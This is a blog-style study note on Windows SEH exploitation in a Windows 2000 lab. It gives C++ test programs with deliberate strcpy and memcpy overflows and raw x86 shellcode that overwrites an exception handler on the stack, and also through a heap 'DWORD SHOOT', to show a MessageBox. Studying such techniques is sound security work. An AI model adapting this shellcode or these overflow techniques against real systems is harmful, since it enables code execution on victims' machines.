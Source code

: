 ```yaml
---
title: Exploit Learning Notes 008 Windows Exception Exploitation
description: SEH stack exploit and heap exploit
date: 2020-10-25 11:32:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Disclaimer: The experimental environment is Windows 2000

Source: [Moeomu's blog](/posts/exploit-learning-notes-008-windows-exception-exploitation/)

## SEH Overview

- SEH is an exception handler structure (Structure Exception Handler), which is an important data structure used by the Windows exception handling mechanism. Each SEH contains two DWORD pointers: the SEH link table pointer and the exception handler handle, totaling 8 bytes
- The SEH structure is stored on the stack
- When a thread is initialized, a SEH is automatically installed on the stack as the default exception handler for the thread
- If the program source code uses an exception handling mechanism such as `try-except`, the compiler eventually implements exception handling by installing a SEH on the current function stack frame
- There are usually multiple SEHs on the stack at the same time
- Multiple SEHs in the stack are strung together in a single chain from the top to the bottom of the stack by means of a chain table pointer, and the SEH at the top of the chain table is identified by a pointer at the TEB0 byte offset
- When an exception occurs, the operating system will terminate the program and first remove the SEH closest to the top of the stack from the 0 offset of the TEB to handle the exception using the code pointed to by the exception handling function handle
- When the exception handler closest to the scene of the incident fails to run, it will try other exception handling functions in order down the SEH chain
- If all the exception handling functions installed in the program fail to handle the exception, the system will use the default exception handling function, which will pop up an error dialog and force the program to close

## SEH utilization idea

- SEH is stored in the stack, and the data in the overflow buffer can flood the SEH
- Change SEH entry to shellcode start address
- The wrong stack frame or heap block data will trigger an exception after the overflow
- After Windows starts handling exceptions, shellcode is executed as an exception handling function

## Stack utilization test for SEH

### NOP test

#### Code

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // next SEH Record
"\x90\x90\x90\x90" // SE Handler Function Address
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // EBP
"\x90\x90\x90\x90" // Return Address
;

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill   process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char* input)
{
    char buf[200];
    int zero = 0;
    __asm int 3 // used to break process for debug
    __try
    {
        strcpy(buf, input); // overrun the stack
        zero = 4 / zero; // generate an exception
    }
    __except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}
```

#### Observe

- `0x0012FE98` address is the starting location of the shellcode
- There are 3 SEHs installed in the current thread, the closest to the top of the stack is at `0x0012FF68`, which is the first SEH called
- The address we want to overwrite is `0x0012FF6C`, which is the address of the processing function, the content can be filled in the starting address of the ShellCode

### Actual test

#### code

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // Next SEH Record
"\x98\xFE\x12\x00"; // SEH Handler

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char * input)
{
    char buf[200];
    int zero=0;
    _try
    {
        strcpy(buf,input); //overrun the stack
        zero=4/zero; //generate an exception
    }
    _except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}
```

#### Watch

- Popup MessageBox dialog successfully

## SEH's heap utilization test

### Actual test

#### Code

```CPP
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00" // head of the ajacent free block
"\x88\x06\x30\x00" // 0x00300688 is the address of shellcode in first
// Heapblock
"\x30\xFF\x12\x00"; // target of DWORD SHOOT

DWORD MyExceptionhandler(void)
{
    ExitProcess(1);
    return 0;
}

void main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0, 0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    memcpy(h1, shellcode, 0x200); // over flow here, noticed 0x200 means
    //512 !
    __asm int 3 // uesd to break the process
    __try
    {
        h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    }
    __except(MyExceptionhandler()){}
}
```
